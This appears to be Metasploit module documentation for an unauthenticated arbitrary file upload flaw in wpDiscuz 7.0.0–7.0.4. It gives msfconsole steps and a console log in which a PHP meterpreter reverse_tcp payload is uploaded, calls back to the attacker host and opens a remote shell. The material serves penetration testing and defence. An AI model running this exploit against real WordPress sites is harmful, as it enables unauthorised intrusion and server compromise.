 ## Vulnerable Application

This module exploits an arbitrary file upload in the WordPress wpDiscuz plugin
versions <= `v7.0.4` and >= `v7.0.0`. This flaw gave unauthenticated attackers
the ability to upload arbitrary files, including PHP files, and achieve remote
code execution on a vulnerable site’s server.

A vulnerable version of the wpDiscuz plugin can be downloaded from [here](https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip).

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload`
4. Do: `set BLOGPATH <path>`
5. Do: `set RHOSTS <ip>`
6. Do: `run`
7. You should get a shell.

## Options

### BLOGPATH

Path to the target Wordpress blog.

## Scenarios

### Wordpress `5.7.2` with wpDiscuz `7.0.4` on Ubuntu 18.04

```
msf6 > use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set rhost 192.168.37.135rhost => 192.168.37.135
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set blogpath index.php/2021/06/23/hello-world/
blogpath => index.php/2021/06/23/hello-world/
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[+] Payload uploaded as ksKFgaD.php
[*] Calling payload...
[*] Sending stage (39282 bytes) to 192.168.37.135
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.135:40444) at 2021-06-23 18:11:41 -0500
[!] This exploit may require manual cleanup of 'ksKFgaD.php' on the target

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
